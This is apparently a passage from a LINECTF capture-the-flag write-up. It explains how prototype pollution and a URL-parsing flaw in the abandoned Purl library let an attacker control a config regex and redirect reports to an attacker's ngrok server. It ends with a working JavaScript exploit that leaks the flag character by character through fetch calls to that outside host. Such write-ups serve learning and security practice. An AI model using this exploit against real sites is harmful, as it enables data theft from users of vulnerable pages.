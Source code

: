 This code is a bit longer, but it basically reads the config first, then sends the content of the body and head to the worker to replace. After replacing, it puts the content back on the screen and reports the matching content to the location `n.data.attr.path + /alert`.

If you search for the long code above, you'll find that it comes from the [Purl](https://github.com/allmarkedup/purl) library, which has been abandoned for a long time. Apart from having a prototype pollution problem, it also has many vulnerabilities in parsing URLs.

First, let's talk about prototype pollution. We can control the `localStorage.config` property by polluting the config, and pass in the regular expression we want. I initially thought of creating a ReDos or something similar and then detecting the time, but later I found out that `n.data.attr.path` can also be controlled.

For example, the path of the URL `http://web:8000/#@acabc//8cae-ip.ngrok.io` will be parsed as `//8cae-ip.ngrok.io`, so we can send the request to our server.

Combined with the config mentioned earlier, we can know which regular expression has a match.

``` html
<script>
  const domain = '8cae.ngrok.io'
  const base = 'http://' + domain
  function getUrl(flag) {
    return `http://web:8000/#@acabc//${domain}/${flag}?q[__proto__][config]={"regex":"${flag}"}`
  }

  function report(msg) {
    fetch(base + '?msg=' + msg)
  }

  function visit(str) {
    var w = window.open(getUrl(str))
    setTimeout(() => {
      w.close()
    }, 2000)
  }

  let flag = 'LINECTF{'
  const charset = '0123456789abcdef'
  const sleep = ms => new Promise(r => setTimeout(r, ms))
  async function main() {

    for(let i=0; i<32; i++) {
      for(let c of charset) {
        const str = flag + ".".repeat(i) + c
        visit(str)
        await sleep(100)
      }
    }
  }

  main()
  

</script>
```
